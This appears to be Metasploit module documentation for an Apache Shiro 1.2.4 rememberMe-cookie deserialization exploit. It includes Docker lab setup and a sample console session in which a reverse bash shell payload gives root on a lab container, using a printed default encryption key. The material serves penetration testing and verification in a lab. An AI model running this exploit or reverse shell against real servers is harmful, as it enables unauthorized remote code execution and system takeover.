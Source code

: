 ## Vulnerable Application

### Description

Apache Shiro v1.2.4 is vulnerable to a Java deserialization vulnerability. An
unauthenticated user can submit a YSoSerial payload to the Apache Shiro web
server as the value to the `rememberMe` cookie. This will result in code
execution in the context of the web server.

The YSoSerial `CommonsCollections2` payload is known to work and is the one
leveraged by this module.

Note that other versions of Apache Shiro may also be exploitable if the
encryption key used by Shiro to encrypt `rememberMe` cookies is known.

### Setup

You can use <https://github.com/Medicean/VulApps/tree/master/s/shiro/1>.

1. Pull the docker image
    * `docker pull medicean/vulapps:s_shiro_1`
2. Run the docker image, binding to port 8080
    * `docker run --rm -p 8080:8080 medicean/vulapps:s_shiro_1`

## Verification Steps

1. `use exploit/multi/http/shiro_rememberme_v124_deserialize`
2. `set rhosts <rhost>`
3. `run`

## Options
### ENC_KEY
The encryption key the target Apache Shiro server is using to encrypt its `rememberMe` cookies.

## Scenarios

### Tested on GNU/Linux x86_64 using Shiro-1.2.4

```
msf > use exploit/multi/http/shiro_rememberme_v124_deserialize
[*] Using configured payload cmd/unix/reverse_bash
msf exploit(multi/http/shiro_rememberme_v124_deserialize) > show options

Module options (exploit/multi/http/shiro_rememberme_v124_deserialize):

   Name       Current Setting           Required  Description
   ----       ---------------           --------  -----------
   ENC_KEY    kPH+bIxk5D2deZiIxcaaaA==  yes       Shiro encryption key
   Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                               yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                        yes       The target port (TCP)
   SSL        false                     no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                         yes       Base directory path
   VHOST                                no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command payload


msf exploit(multi/http/shiro_rememberme_v124_deserialize) > set RHOSTS 172.18.0.2
RHOSTS => 172.18.0.2
msf exploit(multi/http/shiro_rememberme_v124_deserialize) > set LHOST 172.18.0.1
LHOST => 172.18.0.1
msf exploit(multi/http/shiro_rememberme_v124_deserialize) > run

[*] Started reverse TCP handler on 172.18.0.1:4444
[*] Command shell session 1 opened (172.18.0.1:4444 -> 172.18.0.2:60632) at 2020-12-21 17:09:27 -0600

whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
```
